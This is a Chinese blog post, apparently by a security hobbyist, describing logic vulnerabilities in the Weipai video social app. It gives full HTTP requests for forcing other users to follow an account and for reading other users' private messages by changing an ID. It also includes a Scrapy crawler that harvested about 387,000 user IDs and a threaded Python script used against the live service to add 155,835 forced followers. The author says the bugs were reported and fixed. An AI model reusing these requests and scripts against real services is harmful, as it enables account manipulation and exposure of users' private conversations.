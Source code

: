 ```yaml
---
layout: post
title: 微拍APP漏洞 - 屌丝的从无到有
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>

> 微拍，是移动互联网最火爆的手机视频社交APP，有着独特的美白美肤等视频特效，在iPhone和安卓手机的应用商店的社交类和摄影类APP榜单都名列前茅，是北京蝈蝈在线科技有限公司的移动端主打产品。微拍也是微拍摄的简称，是指将中心点，重点，特点，优点等一系列突出或者与众不同的地方加以放大或者延伸，将其以图像的形式记录下来的一种拍摄方式。

微拍中有着大量“白富美”每日发表自拍视频，用户量一度上升到几百万，作为新用户如何才能得到宠幸？

#### 1. 漏洞细节

在手机上安装好APP后马上就能看到各种类型的视频，当然这并不是重点。之后打开手机网络代理，电脑监听APP流量，在尝试了一些常见的漏洞后并没有太大的进展，于是转身跑到逻辑漏洞的身边。

其中```关注用户```点击后，会POST一个这样的请求：

    POST /follow_user HTTP/1.1
    Content-Length: 82
    Content-Type: application/x-www-form-urlencoded
    Host: w1.weipai.cn
    Connection: Keep-Alive
    User-Agent: android-async-http/1.4.1 (weipaipro)
    Accept-Encoding: gzip
    Phone-Type: android_2013022_4.2.1
    os: android
    Channel: (
    App-Name: weipai
    Api-Version: 8
    Client-Version: 0.99.9.2
    Device-Uuid: 9609b1be908****e9beb5442166c7bdfd1ad2e22
    Weipai-Token: 54ba****7373c
    Weipai-UserId: 54ba1650a5640b57078b****
    Phone-Number:
    Push-Id: com.weipai.weipaipro
    Kernel-Version: 15
    Com-Id: weipai

    to_user_id=54ba1650a5640b57078b****&from_user_id=53c299e79d67d962598b****&type=add
    
其中```to_user_id```为我的帐号user_id，```from_user_id```为关注用户的user_id，这里将两者进行交换即可完成对方关注指定用户的功能，也就是第一个逻辑漏洞。

除此之外，在这个APP中有着非常核心的功能：```搭讪```，哦不 是对话功能。APP会每隔几分钟向服务器发送请求来及时更新对话消息：

    GET /pm/new?count=20&weipai_userid=54ba1650a5640b57078b**** HTTP/1.1
    Host: pm.weipai.cn
    Connection: Keep-Alive
    User-Agent: android-async-http/1.4.1 (weipaipro)
    Accept-Encoding: gzip
    Phone-Type: android_2013022_4.2.1
    os: android
    Channel: (
    App-Name: weipai
    Api-Version: 8
    Client-Version: 0.99.9.2
    
我们将这个GET请求中的weipai_userid替换为某个用户id，即可查看对方的搭讪记录。哦不！是对话记录。

![/images/84E9D643-B676-43E3-8275-C4A5EFB529F0.png](/images/84E9D643-B676-43E3-8275-C4A5EFB529F0.png)

#### 2. 爬虫配合

无论是第一个“刷粉漏洞”还是后面的“任意消息查看漏洞”，都有一个前提，那就是获取目标用户的```weipai_userid```，不然【刷】和【任意】都是空谈，JUST DO IT :)

我们找到了这个API，他是一个GET请求并提供用户的粉丝列表：

    http://w1.weipai.cn/user_fans_list?count=20&relative=after&uid=50f8ff597f3494a70200****
    
![/images/FE24226A-2302-442E-B9A9-F1D690ED5FAB.png](/images/FE24226A-2302-442E-B9A9-F1D690ED5FAB.png)

爬虫我们使用Scrapy来编写，将随机一个```user_id```作为种子源依次往下爬取数据：

    #!/usr/bin/env python
    # coding=utf-8
    # author=f

    import scrapy
    import json

    from weipai.items import WeipaiItem

    class weipai_spider(scrapy.Spider):
        allowd_domains = ["http://w1.weipai.cn/"]
        start_urls = ["http://w1.weipai.cn/user_fans_list?count=1000&relative=after&uid=50f8ff597f3494a702000066"]

        uid_list = []
        def parse(self, response):
            item = WeipaiItem()
            all_data = json.loads(response.body)
            for id in all_data['user_list']:
                try:
                    if id['user_id'] not in self.uid_list:
                        self.uid_list.append(id['user_id'])
                        item['user_id'] = id['user_id']
                        item['url'] = "http://w1.weipai.cn/user_fans_list?count=1000&relative=after&uid=%s"%id['user_id']
                        yield item
                        yield self.make_requests_from_url(item['url'])
                except Exception,e:
                    pass
                    

吃完晚饭回来，已经爬取了400,000个```user_id```：

    $ weipai  wc weipai_spider_user_id.json
    387451  387451 8186275 weipai_spider_user_id.json

40w的傀儡用户已经够了（白富美与屌丝共存的user_id_list），准备屌丝逆袭。


#### 3. 漏洞利用

拥有漏洞与傀儡以后，我们开始走逆袭的第一步，先将粉丝数量刷到顶峰，这里我们需要一个脚本：

    #!/usr/bin/env python
    # coding=utf8
    # author=evi1m0@2015

    import requests
    import threadpool as tp

    f_user = open('./weipai.txt', 'r')
    post_url = 'http://w1.weipai.cn/follow_user'

    def start(test):
        flag = 0
        for user in f_user.readlines():
            post_data = {
                         'to_user_id':'54ba1650a5640b57078b****',
                         'from_user_id': user[:-1],
                         'type': 'add',}
            try:
                req = requests.post(post_url, data=post_data, timeout=5)
                flag += 1
                print '[+] %d : %s' % (flag, req.text)
            except:
                continue

    args = [
        ['http://xxx.com', 'test'],
    ]
    pool = tp.ThreadPool(200)
    reqs = tp.makeRequests(start, args)
    [pool.putRequest(req) for req in reqs]
    pool.wait()
    
![/images/EA36C974-EA66-4D10-98A6-27CA8DF6FA03.png](/images/EA36C974-EA66-4D10-98A6-27CA8DF6FA03.png)

非常轻松的，这个刷粉脚本就完成并RUN了起来，但经过观察后发现速度并不理想，于是我把这个脚本放置到了香港及国外的几台服务器上，然后将user_id列表进行几份切割，便睡了过去。

很快的一觉醒来，梦里并没有美女野兽，登录服务器把脚本纷纷停止，把在一旁不停震动的安卓手机拿起，这时才发现已经收到上百条搭讪，当然粉丝数量也已经到了155,835。

![/images/B2155F4E-EF48-4280-AB14-D315142294D9.png](/images/B2155F4E-EF48-4280-AB14-D315142294D9.png)


#### 4. 逆袭

![/images/4201BA71-1953-46FC-93B0-2503711BA3D2.png](/images/4201BA71-1953-46FC-93B0-2503711BA3D2.png)

在顶着“大V”的压力下，我打开搭讪框。哦不！是对话窗口。这时你就会发现，无论是女神屌丝亦或是锥子脸饼子脸，他/她们都在寻找你，小到卖鞋，大到yue否。

既然初衷仅仅是为了JUST DO IT，马上我们将漏洞细节发给了微拍公司，并得到了第一时间修复。

管他女神锥子脸，卖鞋还卖包。伪黑客按下回车合上电脑，删除了这个帐号的一切数据，一切都没发生过。